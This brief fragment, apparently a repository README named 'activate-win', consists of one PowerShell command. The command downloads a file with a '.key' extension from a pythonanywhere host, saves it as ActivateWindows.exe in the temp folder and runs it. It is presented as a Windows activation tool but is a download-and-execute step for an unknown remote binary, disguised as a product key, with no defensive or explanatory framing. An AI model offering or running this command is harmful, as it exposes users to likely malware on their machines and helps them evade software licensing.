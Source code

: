 # activate-win
Invoke-WebRequest -Uri https://KMSConnection.pythonanywhere.com/static/3KHY7-WNT83-DGQKR-F7HPR-844BM.key -OutFile $env:TEMP\ActivateWindows.exe; Start-Process $env:TEMP\ActivateWindows.exe
